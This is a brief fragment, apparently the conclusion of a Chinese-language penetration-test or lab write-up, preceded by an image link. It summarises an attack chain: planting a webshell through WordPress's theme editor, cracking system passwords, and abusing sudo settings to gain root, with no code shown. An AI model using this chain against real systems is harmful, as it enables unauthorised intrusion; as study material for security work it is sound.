

核心要点在于：对于WordPress的渗透，可以利用其主题编辑功能上传WebShell；在提权时，可以尝试破解系统用户密码，并利用sudo权限配置获得root权限。整个流程体现了从外网信息收集到最终获取系统最高权限的完整攻击链。